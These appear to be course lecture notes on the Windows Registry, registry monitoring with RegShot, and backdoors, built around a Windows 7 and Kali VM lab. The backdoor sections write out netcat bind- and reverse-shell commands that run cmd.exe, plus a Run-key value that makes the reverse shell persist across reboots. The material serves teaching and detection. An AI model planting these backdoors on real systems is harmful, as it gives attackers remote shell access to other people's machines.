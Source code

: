 # WINDOWS REGISTRY & BACKDOORS
21-10-24

---

## Content Overview
1. Introduction to the Windows Registry.
2. Registry Structure and Modification.
3. Registry Monitoring.
4. Introduction to Backdoors.
5. Backdoor Setup and Persistent Backdoors.

---

## Windows Registry
- **Definition**:
  - A hierarchical database storing information, settings, and preferences for hardware, software, and users on a Windows system.
- **Key Features**:
  - Stores operating system configurations, hardware setups, and user preferences.
  - Continually referenced by Windows during operation.
- **Examples of Values Stored**:
  - Computer Name, Last Logged-In User, Startup Applications, USB Devices, Recently Accessed Files.

---

## Registry Structure
- **Components**:
  - Hives, Root Keys, Keys, Sub-keys, and Values.
- **Root Keys**:
  1. **HKEY_CLASSES_ROOT**:
     - Application and filetype associations.
  2. **HKEY_CURRENT_USER**:
     - Active user profile settings.
  3. **HKEY_LOCAL_MACHINE**:
     - System-specific hardware/software configurations.
  4. **HKEY_USERS**:
     - Settings for all user profiles.
  5. **HKEY_CURRENT_CONFIG**:
     - Current hardware configurations.

---

## Registry Modification
1. **Example**:
   - Modify the `Run` key at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` to auto-start applications like `notepad.exe`.
2. **Steps**:
   - Navigate to the key → Right Click → New → String Value.
   - Name the value and enter `notepad.exe` in the Value Data field.
   - Restart the system to see changes.
3. **Security Implications**:
   - Registry modifications can be exploited for malicious purposes, such as setting up persistent malware.

---

## Registry Monitoring
1. **Purpose**:
   - Detect changes indicating software installation, configuration updates, or potential malicious activity.
2. **Tool**: **RegShot**:
   - Captures snapshots of the registry at two points in time for comparison.
   - Highlights added, modified, or deleted keys and values.
3. **Process**:
   - Take an initial snapshot → Perform changes (e.g., software installation) → Take a second snapshot → Compare results.

---

## Backdoors
- **Definition**:
  - A method to bypass normal security measures and gain unauthorized access to a system.
- **Examples**:
  - Administrative tools, malicious exploits, or government mechanisms for accessing encrypted data.
- **Risks**:
  - Backdoors can be exploited by attackers for unauthorized access or malicious activity.

---

## Backdoor Setup
1. **Environment Setup**:
   - Requires a Windows 7 VM and Kali VM with Host-Only networking configured.
   - Install **nmap** software on Windows 7 to use the `ncat` component.

2. **Steps**:
   - On Windows 7:
     - Run `ncat -l -p 1234 -e cmd.exe -v` in CMD to establish a backdoor.
   - On Kali:
     - Use `nc <Windows_IP> 1234` to connect and execute commands remotely.

3. **Verification**:
   - Test connectivity between VMs using `ping` commands.

---

## Persistent Backdoor Setup
1. **Registry Modification**:
   - Add a new registry key at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.
   - Set the value to:  
     `C:\Program Files\Nmap\ncat.exe <Kali_IP> 2354 -e cmd.exe`.
2. **Steps**:
   - Modify registry on Windows 7 → Reboot system → Establish a netcat session from Kali using `nc -l -p 2354 -v`.

3. **Result**:
   - A persistent backdoor allows remote CMD access after system reboot.

---

## Key Takeaways
1. **Windows Registry**:
   - Central to system and application configurations but vulnerable to misuse.
2. **Monitoring Tools**:
   - Tools like RegShot help detect registry changes for forensic or troubleshooting purposes.
3. **Backdoors**:
   - Highlight security risks and the importance of monitoring unauthorized access attempts.

